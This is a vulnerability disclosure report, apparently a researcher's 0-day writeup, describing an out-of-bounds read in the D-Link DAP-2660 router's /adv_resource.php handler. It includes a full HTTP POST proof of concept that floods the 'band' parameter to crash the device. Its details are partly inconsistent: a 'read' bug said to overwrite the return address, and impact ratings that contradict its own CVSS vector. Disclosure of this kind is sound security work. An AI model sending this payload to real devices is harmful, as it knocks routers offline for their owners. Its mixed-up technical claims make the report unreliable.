

# D-Link DAP-2660 wireless router /adv_resource buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in D-Link DAP-2660 wireless router. Its /adv_resource implementation has a security vulnerability in processing band POST key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
  - DAP-2660 
  - version:1.13 

## 2 Vulnerability Value

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

    - V2：[6.3 Medium AV:N/AC:M/Au:S/C:N/I:N/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:N/I:N/A:C))
    - V3.1：[6.8 Medium AV:N/AC:L/PR:H/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:H/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of Exploit
     - Permission Constraints: authentication is required
     - User Interaction: No victim interaction required
   - Scope of Impact: Changed (may affect other components than vulnerable ones)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of vulnerability exploitation: Stable recurrence
   - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect

   - Denial of Service

## 3 PoC

The PoC of D-Link DAP-2660 is as follows:
```http
POST /adv_resource.php HTTP/1.1
Host: 0.0.0.0:49162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 2178
Origin: http://0.0.0.0:49162
Connection: keep-alive
Referer: http://0.0.0.0:49162/adv_resource.php?band_reload=1
Cookie: session_uid=ghplwkhuiv
Upgrade-Insecure-Requests: 1

ACTION_POST=adv_resource&band=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&preferred_5g=0&preferred_age_5g=180&preferred_diff_5g=2&preferred_refuse_5g=3&limit_state=0&limit_num=20&preferred_11n=0&utilization=1&aging_out=0&rssi_threshod=100&Date_threshod=54&acl_rssi=0&acl_rssi_thre=60
```
## 4 Vulnerability Principle

When the Web management component receives a POST request, its /adv_resource component implements a security vulnerability in processing the band POST key parameter. The length of the parameter key of band can be any length and it is put into the stack without any boundary check, resulting in a read out-of-bounds. An attacker can exploit this vulnerability to overwrite the return address, which may lead to the disclosure of memory-sensitive information and denial of service.

The firmware is simulated by means of simulation, the simulation process and interface are as follows:


After sending the PoC, a buffer read out-of-bounds memory error occurred, encountered an `unexpected fatal signal 11` error and a BadVA error, causing the program to crash.





## 5. The basis for judging as a 0-day vulnerability

Search the adv_resource keyword in the NVD database, and no vulnerabilities are found.
Search the adv_resource keyword in the CNVD database, and no vulnerabilities are found.